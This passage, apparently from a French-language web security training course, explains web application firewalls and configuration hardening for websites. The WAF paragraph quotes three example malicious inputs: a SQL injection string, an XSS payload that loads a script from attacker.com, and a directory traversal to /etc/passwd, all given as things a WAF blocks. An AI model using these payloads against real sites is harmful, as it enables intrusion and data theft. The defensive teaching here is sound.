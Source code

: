 La défense contre les attaques au niveau de l'application est abordée plus en détail dans le sous-thème Réponse aux incidents DoS (sous-thème 3 dans ce parcours d'apprentissage).

### Utilisation des pare-feux des applications Web

Les AWF (Web Application Firewalls) sont des dispositifs réseau qui se trouvent entre un utilisateur final et le serveur d'origine d'un site Web, comme un CDN. Alors que les CDN fournissent une protection contre les attaques DoS, les AWF tentent de se protéger contre les attaques de piratage. Ils inspecteront les requêtes entrantes et bloqueront celles qui semblent malveillantes, par exemple les paramètres contenant des éléments tels que `' or 1=1;--` (injection SQL), `">&lt;script src="http://attacker.com/payload.js">&lt;z a="` (XSS) ou `../../../../../../etc/passwd` (traversée de répertoires). Bien qu'aucun WAF ne puisse fournir une protection parfaite contre le piratage, il peut être suffisamment efficace pour protéger un site contre les compromissions et compliquer presque toujours l'identification des vulnérabilités par le cybercriminel. Dans la plupart des cas, un bon WAF ne perturbera pas le contenu légitime, mais il est possible que cela se produise. Par exemple, si un site comprend un forum de discussion sur le développement Web sécurisé, un WAF bloquerait probablement les messages légitimes concernant les techniques d'attaque. Comme pour les CDN, il peut être très judicieux d'avoir un site de prédiffusion sur lequel les modifications peuvent être testées avant leur mise en ligne.

La plupart des CDN résistants aux attaques DoS ont également des fonctions WAF. Il existe également des fournisseurs WAF dédiés qui fournissent des services supplémentaires, y compris généralement une protection contre les attaques DoS. Par exemple, [Sucuri](https://sucuri.net/website-firewall/) est un fournisseur WAF qui fournit également une protection DoS, et certaines capacités de sauvegarde et de réponse aux incidents. [WordFence](https://www.wordfence.com/products/pricing/) est un fournisseur WAF spécialisé dans la protection des sites construits sur WordPress. En plus de tenter de bloquer les tentatives de piratage générique et les attaques DoS, il tente de bloquer les attaques qui ciblent spécifiquement les sites WordPress.

Il existe également des WAF qui sont censés être exécutés sur le même serveur ou le réseau que le site Web qu'ils protègent. Les exemples incluent des produits coûteux par Barracuda et F5, ainsi que des solutions open source telles que [ModSecurity](https://github.com/SpiderLabs/ModSecurity). Notez que ces systèmes ne fournissent généralement pas de protection DoS par eux-mêmes.

### Renforcement de la configuration

Les sites Web sont presque universellement construits sur une sorte de cadre qui gère la plupart du travail visant à servir des pages Web. Il peut s'agir d'un framework de bas niveau, comme nginx, qui ne gère que le réseau et le protocole HTTP de base, ou d'un framework de très haut niveau comme WordPress, qui gère tout sauf le contenu du site. Dans la grande majorité des cas, le framework fournit une suite de fonctionnalités, de capacités et d'autres options de configuration, dont la plupart ne sont pas nécessaires pour le site Web. Ces fonctionnalités et configurations inutiles exposent le site Web à des risques supplémentaires en augmentant la surface d'attaque (et le potentiel de bugs exposés) ou les configurations non sécurisées elles-mêmes.

Bien qu'il soit possible d'étudier manuellement les capacités d'un framework et de décider comment activer les fonctionnalités et les configurations par soi-même, il est généralement beaucoup plus facile et efficace d'utiliser un outil ou un ensemble de directives par défaut. Ces renforcements de la configuration représentent généralement des milliers d'heures de travail pour verrouiller un système autant que possible sans le rendre inutilisable.

Comme pour toute modification du système, il est utile, et peut-être nécessaire, d'avoir un environnement séparé dans lequel tester les modifications, ainsi qu'un processus de test pour garantir que tout fonctionne correctement avant de déployer les modifications en production. Un site peut dépendre d'une configuration non sécurisée ou d'une fonctionnalité peu utilisée pour fonctionner correctement. Dans ce cas, il est préférable de résoudre la situation avant de mettre en service le site reconfiguré.
